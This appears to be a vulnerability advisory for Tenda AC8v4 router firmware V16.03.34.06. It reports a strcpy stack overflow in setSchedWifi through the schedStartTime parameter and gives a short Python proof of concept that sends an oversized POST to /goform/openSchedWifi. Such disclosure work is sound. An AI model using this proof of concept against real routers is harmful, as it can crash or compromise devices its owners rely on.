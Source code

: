 # Tenda AC8v4 V16.03.34.06

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr+2` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided  `schedStartTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735650491449](/img/1735650491449.png)

![1735650523496](/img/1735650523496.png)

![1735650546634](/img/1735650546634.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedStartTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](/img/1735650674572.png)

